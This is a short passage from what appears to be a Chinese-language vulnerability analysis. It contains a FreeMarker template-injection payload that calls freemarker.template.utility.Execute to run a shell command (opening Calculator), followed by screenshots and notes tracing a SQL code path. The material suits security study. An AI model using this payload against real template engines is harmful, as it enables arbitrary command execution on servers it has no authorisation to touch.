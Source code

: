 ```plain
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("open -a Calculator.app")}
```

[![](assets/1704273687-9ea8a65ae5c445fbf363d119d5b4aad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153445-914be566-aa0a-1.png)

随着继续跟进，不用看 type，因为不影响。直接看 sql

[![](assets/1704273687-6efefc3a01c339c6b1ebfa85a46584ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153500-99c2298a-aa0a-1.png)

这里走入的是第二个 sql 的，因为 paramArray 是 null

[![](assets/1704273687-5ad35be7d8c92cdc18bc592d619a69a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153519-a506fee2-aa0a-1.png)
